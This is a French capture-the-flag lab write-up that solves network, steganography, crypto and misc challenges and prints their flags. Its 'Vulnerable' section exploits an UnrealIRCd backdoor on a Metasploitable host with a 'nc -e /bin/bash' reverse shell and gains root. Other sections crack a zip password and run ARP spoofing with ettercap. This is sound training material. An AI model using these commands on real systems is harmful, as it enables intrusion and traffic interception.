






# RT0907 - TP CTF

## Reseau

### Ftp for dummy's

On trouve le paquet lié à l'envoi du mot de passe.



### Helo

On effectue un scan de port avec la détection de version.

```txt
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.56.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 04:36 EST
Nmap scan report for 192.168.56.133
Host is up (0.00062s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        ProFTPD 1.3.5e
25/tcp   open  smtp       OpenSMTPD
80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
3128/tcp open  http-proxy Squid http proxy 3.5.27
Service Info: Host: ubuntu; OS: Unix
```

On établit une connexion avec le service smtp et on récupère les infos du serveur.

```txt
┌──(kali㉿kali)-[~]
└─$ nc 192.168.56.133 25
220 ubuntu ESMTP OpenSMTPD
HELP info
214- This is OpenSMTPD
214- le flag est asr2020{C3ci_Est_Un_Flag!!!!!} mettez ce flag sur le ctf!
214- with full details
214 2.0.0: End of HELP info
```

## Stegano

### Rafale



### Only a cat



### Le jeu des 34 differences

On récupère la diff des images.

```txt
compare angelus_1.bmp angelus_2.bmp -compose src diff.bmp
```


On tente une autre approche, en comparant les binaires.

```txt
[sylou@elitop lab]$ cmp -bl angelus_1.bmp angelus_2.bmp 
  31742 142 b    141 a
 188232 164 t    163 s
 215916 163 s    162 r
 215954  63 3     62 2
 216004  61 1     60 0
 216505  63 3     62 2
 216633  61 1     60 0
 228216 174 |    173 {
 234210 116 N    115 M
 243348 160 p    157 o
 267597 157 o    156 n
 270981 140 `    137 _
 289356 161 q    160 p
 320040 163 s    162 r
 320061 146 f    145 e
 332268 156 n    155 m
 335424 152 j    151 i
 338094 146 f    145 e
 340452 163 s    162 r
 343533 140 `    137 _
 347982 147 g    146 f
 353781 160 p    157 o
 355818 157 o    156 n
 356807 145 e    144 d
 356865 140 `    137 _
 356931 146 f    145 e
 363117 144 d    143 c
 372582 163 s    162 r
 374223 142 b    141 a
 375656 157 o    156 n
 375701  42 "     41 !
 375743  42 "     41 !
 375751  42 "     41 !
 378575 176 ~    175 }
```

## Crypto

### Base pas 64

Si ce n'est pas du base64, on peut tenter du base32.

```txt
[sylou@elitop lab]$ base32 -d flag.txt 
le flag est asr2020{Cec1_est_le_fl@g}
```

### Système de chiffrement polyalphabétique

Trop d'aleatoire pour du cesar, on tente du vegenere.



## Misc

### Picture

On trouve un disque vide, donc on essaie de récupérer les fichiers effacés avec `photorec`.

```txt
ladmin@ubuntu-lab:~$ photorec image.dd 
PhotoRec 7.1, Data Recovery Utility, July 2019
Christophe GRENIER <grenier@cgsecurity.org>
https://www.cgsecurity.org
```

Essayons un peu de grep, juste au cas où.

```txt
ladmin@ubuntu-lab:~$ grep -r 'asr2020' recup_dir*
recup_dir.1/f0031480.sh:flag asr2020{Ca_marche_Photorec_ou_pas!} 
```

### Y'a pas photo

Cette fois-ci, on ne trouve rien avec photorec, donc on va essayer d'analyser le binaire directement.



### Vulnerable

On commence par analyser les services de la machine avec une recherche de la version des services.

```txt
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.56.132              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:58 CET
Nmap scan report for 192.168.56.132
Host is up (0.0024s latency).
Not shown: 977 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Un serveur irc `UnrealIRCd` a été trouvé ouvert.
On recherche dans la liste des scripts nmap quelque chose en rapport avec UnrealIRCd.

```txt
┌──(kali㉿kali)-[~]
└─$ ls -l /usr/share/nmap/scripts | grep unrealircd 
-rw-r--r-- 1 root root  8480 Nov  2 03:10 irc-unrealircd-backdoor.nse
```

On teste le script pour vérifier si le service dispose de la backdoor.

```txt
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 6667 --script=irc-unrealircd-backdoor 192.168.56.132
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:59 CET
Nmap scan report for 192.168.56.132
Host is up (0.00042s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Service Info: Host: irc.Metasploitable.LAN
```

Comme le backdoor semble exploitable, nous allons lire la [doc du script](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html).
On essaie donc d'exploiter la vulnérabilité et d'initier un reverse shell.

Dans une console séparée, nous lançons `nc` en mode écoute.

```txt
┌──(kali㉿kali)-[~]
└─$ nc -lvp 8080 
listening on [any] 8080 ...
```

Ensuite, on lance l'exploitation.

```txt
┌──(kali㉿kali)-[~]
└─$ nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -e /bin/bash 192.168.56.101 8080' 192.168.56.132
```

On récupère le shell, on vérifie notre environnement et on récupère le flag.

```txt
listening on [any] 8080 ...
192.168.56.132: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.132] 41681
pwd
/etc/unreal
id
uid=0(root) gid=0(root)
find / -type f -name flag.txt
/var/tmp/flag.txt
cat /var/tmp/flag.txt
asr2020{C3tt3_M@chine_Es1_mult1_p0wnable!!!}
```

### Trop facile

On récupère tous les mots de la page web.

```txt
┌──(kali㉿kali)-[~/lab]
└─$ curl http://192.168.56.133/ | grep -oE '\w+' > dict.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  106k  100  106k    0     0  34.7M      0 --:--:-- --:--:-- --:--:-- 52.0M
```

On essaie de trouver le mot de passe du fichier zip à l'aide du dictionnaire.

```txt
┌──(kali㉿kali)-[~/lab]
└─$ fcrackzip -D -u -p dict.txt flag.zip                   


PASSWORD FOUND!!!!: pw == socioculturelle
```

Ainsi, on peut décompresser le fichier zip et lire son contenu.

```txt
┌──(kali㉿kali)-[~/lab]
└─$ unzip flag.zip
Archive:  flag.zip
[flag.zip] flag.txt password: 
  inflating: flag.txt  

┌──(kali㉿kali)-[~/lab]
└─$ cat flag.txt 
asr2020{hein_l3_M0t_de_Passe_Est_F@cile} 
```

### Poison

On tente une attaque man-in-the-middle par le biais d'un ARP spoofing.

```txt
┌──(kali㉿kali)-[~]
└─$ sudo ettercap -T -i eth1 -M arp /192.168.56.130// /192.168.56.131//
```

On utilise wireshark pour vérifier le trafic entre les deux machines.
On trouve le flag dans le retour d'une requête HTTP.


